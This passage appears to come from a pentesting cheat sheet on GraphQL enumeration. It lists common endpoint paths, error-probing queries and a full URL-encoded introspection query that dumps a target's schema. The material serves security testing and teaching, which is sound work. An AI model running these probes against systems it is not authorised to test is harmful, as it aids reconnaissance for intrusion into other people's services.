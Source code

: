 ## Enumeration

### Common GraphQL endpoints

Most of the time the graphql is located on the `/graphql` or `/graphiql` endpoint. 
A more complete list is available at [danielmiessler/SecLists/graphql.txt](https://github.com/danielmiessler/SecLists/blob/fe2aa9e7b04b98d94432320d09b5987f39a17de8/Discovery/Web-Content/graphql.txt).

```ps1
/v1/explorer
/v1/graphiql
/graph
/graphql
/graphql/console/
/graphql.php
/graphiql
/graphiql.php
```


### Identify an injection point

```js
example.com/graphql?query={__schema{types{name}}}
example.com/graphiql?query={__schema{types{name}}}
```

Check if errors are visible.

```javascript
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```


### Enumerate Database Schema via Introspection

URL encoded query to dump the database schema.

```js
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```
